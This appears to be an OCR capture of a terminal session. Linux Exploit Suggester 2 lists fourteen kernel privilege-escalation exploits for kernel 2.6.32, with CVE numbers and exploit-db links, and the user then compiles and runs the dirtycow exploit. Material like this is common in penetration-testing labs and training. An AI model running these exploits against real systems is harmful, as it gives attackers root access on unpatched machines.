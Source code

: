   #############################
    Linux Exploit Suggester 2
  #############################

  Local Kernel: 2.6.32
  Searching 72 exploits...

  Possible Exploits
  [1] american-sign-language
      CVE-2010-4347
      Source: http://www.securityfocus.com/bid/45408
  [2] can_bcm
      CVE-2010-2959
      Source: http://www.exploit-db.com/exploits/14814
  [3] dirty_cow
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616
  [4] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [5] half_nelson1
      Alt: econet       CVE-2010-3848
      Source: http://www.exploit-db.com/exploits/17787
  [6] half_nelson2
      Alt: econet       CVE-2010-3850
      Source: http://www.exploit-db.com/exploits/17787
  [7] half_nelson3
      Alt: econet       CVE-2010-4073
      Source: http://www.exploit-db.com/exploits/17787
  [8] msr
      CVE-2013-0268
      Source: http://www.exploit-db.com/exploits/27297
  [9] pktcdvd
      CVE-2010-3437
      Source: http://www.exploit-db.com/exploits/15150
  [10] ptrace_kmod2
      Alt: ia32syscall,robert_you_suck       CVE-2010-3301
      Source: http://www.exploit-db.com/exploits/15023
  [11] rawmodePTY
      CVE-2014-0196
      Source: http://packetstormsecurity.com/files/download/126603/cve-2014-0196-md.c
  [12] rds
      CVE-2010-3904
      Source: http://www.exploit-db.com/exploits/15285
  [13] reiserfs
      CVE-2010-1146
      Source: http://www.exploit-db.com/exploits/12130
  [14] video4linux
      CVE-2010-3081
      Source: http://www.exploit-db.com/exploits/15024

user@debian:~$ gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0wuser@debian:~$ ./c0w
                                